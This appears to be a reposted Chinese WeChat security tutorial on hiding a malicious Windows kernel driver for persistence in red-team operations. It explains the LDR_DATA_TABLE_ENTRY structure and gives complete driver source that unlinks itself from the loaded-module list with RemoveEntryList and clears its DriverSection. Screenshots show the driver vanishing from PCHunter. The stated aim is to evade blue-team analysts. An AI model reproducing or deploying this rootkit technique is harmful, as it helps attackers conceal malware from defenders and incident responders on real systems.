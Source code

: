 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/bK6bLvEIeYhIbBo8uVlOLA)

前言

    在做权限维持的时候，往往采用三环的技术显得可能微不足道了。本节用内核层的技术实现驱动信息隐藏。  

1. 恶意驱动文件查找

    在普遍的红蓝对抗中，蓝队针对于底层的知识了解的少而又少，这里举一个较为常见的例子..  

    蓝队可能使用 PCHunter 等工具进行分析可疑进程和文件。

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWyz4aBicWKzYoLCqr7xKazQULND3IPymLtuKnabdULHhIEic9eJmwEHjgvOWJwz22UtRYOP1MjrvvMsA/640?wx_fmt=png)

    之后我们载入一个自己写的驱动文件，看一下 PCHunter 的情况, 可以在本工具成功看到我们的驱动信息。

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWyz4aBicWKzYoLCqr7xKazQULR7hAAZ82hPautqG1BPYjkI47U9TGkXRuLowJpG9pHXbZPOswWNYjkQ/640?wx_fmt=png)

2. 驱动断链隐藏结构

    在 PLDR_DATA_TABLE_ENTRY 结构体中，InLoadOrderLinks 成员，这个成员把系统所有加载 (可能是停止没被卸载) 已经读取到内存中。

```
PDRIVER_OBJECT->PLDR_DATA_TABLE_ENTRY->InLoadOrderLinks
```

    PLDR_DATA_TABLE_ENTRY 结构体如下：

```
typedef struct _LDR_DATA_TABLE_ENTRY {
  LIST_ENTRY InLoadOrderLinks;//这个成员把系统所有加载(可能是停止没被卸载)已经读取到内存中 我们关系第一个  我们要遍历链表 双链表 不管中间哪个节点都可以遍历整个链表 本驱动的驱动对象就是一个节点
  LIST_ENTRY InMemoryOrderLinks;//系统已经启动 没有被初始化 没有调用DriverEntry这个历程的时候 通过这个链表进程串接起来
  LIST_ENTRY InInitializationOrderLinks;//已经调用DriverEntry这个函数的所有驱动程序
  PVOID DllBase;
  PVOID EntryPoint;//驱动的进入点 DriverEntry
  ULONG SizeOfImage;
  UNICODE_STRING FullDllName;//驱动的满路径
  UNICODE_STRING BaseDllName;//不带路径的驱动名字
  ULONG Flags;
  USHORT LoadCount;
  USHORT TlsIndex;
  union {
    LIST_ENTRY HashLinks;
    struct {
      PVOID SectionPointer;
      ULONG CheckSum;
    };
  };
  union {
    struct {
      ULONG TimeDateStamp;
    };
    struct {
      PVOID LoadedImports;
    };
  };
} LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;
```

3. 代码分析实现

    通过 InLoadOrderLinks 进行获取当前驱动信息，之后利用 RemoveEntryList 该节点即可。

    代码全部实现如下：

         通过 PsCreateSystemThread 创建了一个线程 Thread，并在 Thread 内部实现了驱动断链。

```
#include <ntddk.h>
typedef struct _LDR_DATA_TABLE_ENTRY {
  LIST_ENTRY InLoadOrderLinks;//这个成员把系统所有加载(可能是停止没被卸载)已经读取到内存中 我们关系第一个  我们要遍历链表 双链表 不管中间哪个节点都可以遍历整个链表 本驱动的驱动对象就是一个节点
  LIST_ENTRY InMemoryOrderLinks;//系统已经启动 没有被初始化 没有调用DriverEntry这个历程的时候 通过这个链表进程串接起来
  LIST_ENTRY InInitializationOrderLinks;//已经调用DriverEntry这个函数的所有驱动程序
  PVOID DllBase;
  PVOID EntryPoint;//驱动的进入点 DriverEntry
  ULONG SizeOfImage;
  UNICODE_STRING FullDllName;//驱动的满路径
  UNICODE_STRING BaseDllName;//不带路径的驱动名字
  ULONG Flags;
  USHORT LoadCount;
  USHORT TlsIndex;
  union {
    LIST_ENTRY HashLinks;
    struct {
      PVOID SectionPointer;
      ULONG CheckSum;
    };
  };
  union {
    struct {
      ULONG TimeDateStamp;
    };
    struct {
      PVOID LoadedImports;
    };
  };
} LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;

VOID Uploades(struct _DRIVER_OBJECT *DriverObject){
  DbgPrint("%s\r\n",__FUNCTION__);
}
VOID Thread(PDRIVER_OBJECT next_driver){
//获取第一个
  PLDR_DATA_TABLE_ENTRY drivs = &((PLDR_DATA_TABLE_ENTRY)next_driver->DriverSection)->InLoadOrderLinks;
  RemoveEntryList(drivs); //进行断链隐藏
  next_driver->Type = 0;
  next_driver->Size = 0;
  next_driver->DriverSection = 0;
}
NTSTATUS DriverEntry(PDRIVER_OBJECT driver, PUNICODE_STRING reg_path)
{
  driver->DriverUnload = Uploades;
  HANDLE hThread = NULL;
  PsCreateSystemThread(&hThread, 0, NULL, NULL, NULL, Thread, driver);
  return STATUS_SUCCESS;
}
```

    之后用 PCHunter 进行查找 (以字母顺序进行查找)，可以看到最后一项是没有 yc.sys 驱动文件，隐藏成功！

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWyz4aBicWKzYoLCqr7xKazQULFPKQM2KayF56HMkNkgNShNuWqibvBiahfUqYMss1DY0v8zPlvTiaajZhA/640?wx_fmt=png)

 **微信搜索关注 "安全族" 长期更新安全资料，扫一扫即可关注安全族！**

![](https://mmbiz.qpic.cn/mmbiz_jpg/8miblt1VEWywCsRiaweFhRW8aDdjtoCoSU2eQAJ6KxKAoP0PSHvjGJvTZcRRXTAeSd9Qyib0ynLnBUwdiahhhOaSDQ/640?wx_fmt=jpeg)